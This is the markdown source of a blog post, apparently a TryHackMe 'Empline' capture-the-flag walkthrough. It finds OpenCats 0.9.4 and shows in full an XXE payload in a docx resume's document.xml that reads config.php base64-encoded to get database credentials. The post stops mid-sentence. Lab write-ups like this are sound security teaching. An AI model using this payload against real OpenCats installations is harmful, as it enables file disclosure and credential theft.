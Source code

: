 ```yaml
---
layout: post
title:  "THM: Empline"
date:   2021-09-18 12:00:00 +1000
category: hacking
---
```


Well after I wrote yesterday there hadn't been anything good on THM for a bit they came and released [Empline](https://tryhackme.com/room/empline). And it is good. Medium rated.

## Ports
My first scan brought up HTTP and SSH only. A later scan - after the box had been running for longer - added mysql to the mix.

## Web
Visiting the IP only gets a basic landing page but one link catches the eye; to **job.empline.thm/careers**. So we add *empline.thm* and *jobs.empline.thm* to /etc/hosts and check it out. At jobs.empline.thm we find **Opencats Version 0.9.4 Countach**. If we take a look at [this excellent blog post](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/) we can learn all about the vulnerability and how to exploit it. 

The system is a job applicant tracking system which allows you to upload a resume as a **docx**, and there is an XXE injection in the 'document.xml' part of the docx. The blog post must have been the inspiration for the box, because it follows the laid out attack almost exactly.

PoC is of course via reading /etc/passwd, but then we read **config.php** with base64 encoding to get our database credentials. The payload looked like this:

{% highlight xml %}
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>&test;</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
{% endhighlight %}

and you update the the docx like so:

